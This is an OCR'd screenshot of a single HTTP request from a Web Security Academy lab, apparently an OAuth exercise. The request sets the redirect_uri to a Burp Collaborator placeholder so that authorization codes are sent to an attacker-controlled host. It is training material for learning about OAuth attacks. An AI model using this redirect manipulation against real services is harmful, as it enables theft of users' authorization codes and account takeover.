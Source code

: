 ```
GET /auth?client_id=CHANGE_ME_TO_GENERATED_CLIENT_ID&redirect_uri=CHANGE_ME_TO_BURP_COLLABORATOR&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-0a3700db041e2539c02e748d0299008b.web-security-academy.net
Cookie: _session=EzdFgratY_5c5PCfmkBmb; _session.legacy=EzdFgratY_5c5PCfmkBmb
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://0a79002004d025bdc0337454004600f7.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```







